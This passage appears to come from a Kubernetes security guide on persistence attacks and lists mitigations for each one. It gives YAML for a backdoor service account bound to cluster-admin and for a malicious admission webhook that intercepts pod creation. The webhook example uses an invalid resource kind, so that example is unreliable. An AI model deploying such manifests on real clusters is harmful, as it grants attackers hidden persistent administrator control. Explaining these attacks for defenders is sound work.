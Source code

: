 **Mitigation Strategies:**
- Image scanning and vulnerability assessment
- Image signing and verification
- Private registry with access controls
- Admission controllers for image validation

#### Backdoor Service Accounts
Creating persistent service accounts with elevated privileges:

```yaml
# Malicious service account with cluster-admin privileges
apiVersion: v1
kind: ServiceAccount
metadata:
  name: backdoor-sa
  namespace: kube-system

---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: backdoor-binding
subjects:
- kind: ServiceAccount
  name: backdoor-sa
  namespace: kube-system
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

**Detection and Prevention:**
- Regular RBAC audits
- Monitoring service account creation
- Principle of least privilege
- Automated compliance checking

#### Malicious Admission Controllers
Compromising admission controllers to inject malicious configurations:

```yaml
# Malicious validating admission webhook
apiVersion: admissionregistration.k8s.io/v1
kind: ValidatingAdmissionWebhook
metadata:
  name: malicious-webhook
webhooks:
- name: backdoor.example.com
  clientConfig:
    service:
      name: malicious-service
      namespace: default
      path: "/validate"
  rules:
  - operations: ["CREATE", "UPDATE"]
    apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
```
